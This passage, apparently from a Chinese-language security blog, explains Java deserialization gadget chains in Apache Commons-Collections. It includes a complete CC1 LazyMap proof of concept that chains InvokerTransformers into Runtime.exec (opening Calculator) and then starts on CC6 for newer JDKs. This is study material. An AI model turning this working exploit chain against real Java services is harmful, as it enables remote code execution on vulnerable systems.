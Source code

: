 在走到else -> default这个位置时，会触发get方法。现在的问题就是如何调用到AnnotationInvocationHandler的invoke方法。

Java 可以用java.reflect.proxy劫持对象内部方法的调用，因此我们可以劫持InvocationHandler，将对象用Proxy进行代理。当readObject时，调用任意方法都触发invoke，从而走到get方法，进一步调用反序列化链。

LazyMap 版CC1 POC：

```java
public class CC1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] { "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class}, new String[] { "open -a /System/Applications/Calculator.app/Contents/MacOS/Calculator" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);
        construct.setAccessible(true);
        InvocationHandler handler = (InvocationHandler) construct.newInstance(Retention.class, outerMap);
        Map proxyMap = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(), new Class[] {Map.class}, handler);
        handler = (InvocationHandler) construct.newInstance(Retention.class, proxyMap);
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(handler);
        oos.close();
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

![image.png](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/20230804174830.png)

而LazyMap也同样受版本的限制，8u71后的jdk版本，AnnotationInvocationHandler不会直接调用反序列化得到的Map，也就没用了。

## Commons-Collections 6
> CC1只能在8u71前打通，而CC6是一条高版本的利用链
### HashSet
CC6(Commons-Collections 6)是比较通用的高版本利用链。8u71版本的限制主要是AnnotationInvocationHandler.invoke 不会调用 LazyMap#get()，因此就需要一个新的利用点来调用LazyMap#get()。
